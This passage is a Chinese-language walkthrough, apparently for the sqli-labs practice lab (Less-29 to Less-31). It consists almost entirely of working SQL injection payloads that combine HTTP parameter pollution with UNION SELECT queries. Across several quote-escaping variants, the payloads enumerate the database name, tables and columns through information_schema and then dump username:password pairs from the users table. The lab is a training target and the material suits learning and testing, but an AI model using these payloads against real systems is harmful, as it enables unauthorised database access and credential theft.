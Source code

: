 ```
?id=1&id=-1' UNION SELECT 1,database(),3 --+
```

爆表名。

```
?id=1&id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+
```

爆字段名。

```
?id=1&id=-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema='security' and table_name='users'--+
```

爆出 users 表中的信息。

```
?id=1&id=-1' UNION SELECT 1,group_concat(concat_ws(':',username,password)),3 FROM security.users--+
```

## Less-30

**HPP-"**

```
id=1&id=1" ORDER BY 3--+

?id=1&id=-1" UNION SELECT 1,2,3--+

?id=1&id=-1" UNION SELECT 1,database(),3 --+

?id=1&id=-1" UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+

?id=1&id=-1" union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema='security' and table_name='users'--+

?id=1&id=-1" UNION SELECT 1,group_concat(concat_ws(':',username,password)),3 FROM security.users--+
```

## Less-31

**HPP-")**

```
?id=1&id=1") ORDER BY 3--+

?id=1&id=-1") UNION SELECT 1,2,3--+

?id=1&id=-1") UNION SELECT 1,database(),3 --+

?id=1&id=-1") UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+

?id=1&id=-1") union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema='security' and table_name='users'--+

?id=1&id=-1") UNION SELECT 1,group_concat(concat_ws(':',username,password)),3 FROM security.users--+
```
